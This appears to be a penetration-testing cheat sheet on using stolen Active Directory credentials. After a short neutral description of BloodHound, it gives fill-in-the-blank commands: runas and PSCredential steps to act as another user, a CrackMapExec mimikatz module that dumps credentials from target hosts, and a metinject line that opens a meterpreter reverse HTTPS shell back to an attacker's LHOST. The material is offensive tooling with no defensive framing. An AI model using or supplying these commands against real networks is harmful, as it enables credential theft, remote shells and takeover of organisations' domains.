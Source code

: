 # Active Directory - Credential Shuffle

### Overview

###### BloodHound

BloodHound uses graph theory to reveal the hidden and often unintended
relationships within an Active Directory environment. Attackers can use
BloodHound to easily identify highly complex attack paths that would otherwise
be impossible to quickly identify. Defenders can use BloodHound to identify and
eliminate those same attack paths. Both blue and red teams can use BloodHound
to easily gain a deeper understanding of privilege relationships in an
Active Directory environment.

### Exploit

#### Locally use credentials

Set the main DNS server on the attacking computer to the Domain Controller IP
address:

```
Control Pannel -> Network and Internet -> Network and Sharing Center -> Change adapter setting -> right click on the adapter being used -> Properties -> Internet Protocol Version 4 (TCP/IPv4) -> Properties -> Set the Preferred DNS server field  
```

To authenticate locally as another user (with plaintext credentials) and
execute Powershell commands use:

```
# runas
runas /NetOnly /user:<DOMAIN>\<USERNAME> powershell.exe

# For the commands supporting PSCredential
$secpasswd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<DOMAIN>\<USERNAME>", $secpasswd)
```

#### CrackMapExec

```
crackmapexec <TARGETS> -M mimikatz -d <DOMAIN> -u <USERNAME> -p <PASSWORD>
# msf exploit(handler) > set payload windows/meterpreter/reverse_https
crackmapexec <TARGETS> -M metinject -o LHOST=<HOSTIP> LPORT=<HOSTPORT> -d <DOMAIN> -u <USERNAME> -p <PASSWORD>



```
